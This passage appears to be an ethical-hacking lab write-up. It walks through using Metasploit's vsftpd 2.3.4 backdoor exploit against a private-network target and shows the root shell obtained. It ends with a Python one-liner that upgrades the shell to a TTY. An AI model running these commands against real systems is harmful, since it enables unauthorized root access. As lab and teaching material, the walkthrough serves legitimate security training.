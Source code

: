 The first command i will do using `Metasploit` is the `search` command to help see any exploit avalaible for my search query:
```terminal
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```
And here as you can see i found the exploit `vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)`. Now we are going to use it using the `use` command :
```terminal
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > use exploit/unix/ftp/vsftpd_234_backdoor
[*] Using configured payload cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 192.168.11.135
rhosts => 192.168.11.135
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit 

[*] 192.168.11.135:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.11.135:21 - USER: 331 Please specify the password.
[+] 192.168.11.135:21 - Backdoor service has been spawned, handling...
[+] 192.168.11.135:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.11.128:33417 -> 192.168.11.135:6200) at 2023-09-10 11:21:23 -0400
```
Let's dive in our command :
- `use exploit/unix/ftp/vsftpd_234_backdoor` We begin by specifying the exploit we want to use. In this case, we've chosen the "vsftpd_234_backdoor" exploit for vsFTPd 2.3.4.
- `set rhosts 192.168.11.135` We set the target host (rhosts) to the IP address of the FTP server we're testing. This tells the exploit where to attempt the attack.
- `exploit` With everything set up, we initiate the exploit.
- `[*] Command shell session 1 opened (192.168.11.128:33417 -> 192.168.11.135:6200) at 2023-09-10 11:21:23 -0400` Tells us the machine has been successfuly exploited and we have a session opened.

Having successfully exploited the vsFTPd vulnerability, we've achieved a significant milestone in ethical hacking: gaining root access to the target machine. This level of access grants us the highest privileges, essentially making us the system's administrator.
```terminal
[*] Found shell.
[*] Command shell session 1 opened (192.168.11.128:44003 -> 192.168.11.135:6200) at 2023-09-10 11:52:35 -0400

id
uid=0(root) gid=0(root)
whoami
root
pwd
/
```
### UPGRADING OUR SHELL TO TTYs
To enhance our level of control over the exploited system, we can upgrade our current shell to a fully interactive TTY (teletypewriter) session. This provides a more responsive and feature-rich terminal experience, making it easier to interact with the system.
Here's how you can upgrade your shell to a TTY using Python:
```terminal
python -c 'import pty; pty.spawn("/bin/bash")'
```